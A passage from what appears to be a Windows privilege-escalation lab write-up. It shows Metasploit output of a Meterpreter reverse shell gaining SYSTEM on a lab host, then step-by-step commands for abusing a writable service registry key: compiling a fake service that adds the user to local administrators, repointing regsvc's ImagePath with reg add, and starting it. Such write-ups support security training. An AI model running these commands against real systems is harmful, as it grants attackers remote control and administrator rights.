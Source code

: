 shell system!

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.147.132:4444
[*] Sending stage (175174 bytes) to 10.10.111.63
[*] Meterpreter session 1 opened (10.8.147.132:4444 -> 10.10.111.63:49281) at 2021-05-08 10:10:45 +0200


meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Service escalation

Open powershell prompt and type

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

Notice that the output suggests that user belong to "NT AUTHORITY\INTERACTIVE" has "FullContol" permission over the registry key.

```
NT AUTHORITY\INTERACTIVE Allow FullControl
```

we need to create a fake service that add local administrator

windows_service.c

replace "system" function with

```
cmd.exe /k net localgroup administrators user /add
```

compile

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

put in c:\temp

register service:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

```
sc start regsvc
```
